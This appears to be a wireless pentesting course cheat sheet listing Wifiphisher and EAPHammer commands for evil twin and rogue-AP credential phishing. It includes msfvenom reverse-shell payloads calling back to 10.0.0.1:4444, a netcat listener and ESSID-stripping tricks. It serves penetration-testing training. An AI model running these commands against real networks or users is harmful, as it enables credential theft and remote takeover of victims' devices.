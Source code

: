 Code: configuration

```configuration
* PEAP,TTLS,TLS,MD5,GTC,FAST
"t" TTLS-PAP,GTC,TTLS-CHAP,TTLS-MSCHAP,TTLS-MSCHAPV2,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAP "challenge1234" [2]
```

---

# Automated Evil Twin Attacks

## Wifiphisher

| **Command** | **Description** |
| --- | --- |
| sudo systemctl restart NetworkManager | Ensures that WiFi interfaces are restored and ready, before initiating an attack. |
| wifiphisher --essid "FREE WI-FI" -p oauth-login -kB -kN | Launch the OAuth phishing attack. |
| wifiphisher -aI wlan0 -eI wlan1 -p firmware-upgrade --handshake-capture HTB-01.cap -kN | Launch the firmware upgrade phishing attack. |
| msfvenom -p linux/x64/shell\_reverse\_tcp LHOST=10.0.0.1 LPORT=4444 -f elf > shell.elf | Generates a malicious ELF file. |
| msfvenom -p windows/x64/shell\_reverse\_tcp LHOST=10.0.0.1 LPORT=4444 -f exe > shell.exe | Generates a malicious Portable Executable. |
| wifiphisher -aI wlan0 -eI wlan1 -p plugin\_update --payload-path /home/wifi/shell.elf -kN | Launch the plugin update phishing attack. |
| nc -nvlp 4444 | Starts a netcat listener. |

### EAPHammer

| **Command** | **Description** |
| --- | --- |
| sudo /opt/eaphammer/eaphammer --cert-wizard | Creates self-signed certificates for the rogue AP. |
| sudo /opt/eaphammer/eaphammer -i wlan1 --auth wpa-eap --essid HTB-Wireless --creds --negotiate balanced --essid-stripping '\\x20' | Launches the ESSID-stripped rogue AP |

**ESSID Stripping**

| Character | Description |
| --- | --- |
| `\x20` | Add a space, like a white space after ESSID |
| `\x00` | For NULL after ESSID, it'll omit all characters after it |
| `\t` | Add tab after ESSID |
| `\r` | Add new line after ESSID |
| `\n` | For a enter, similar to '\\r' after ESSID |

---
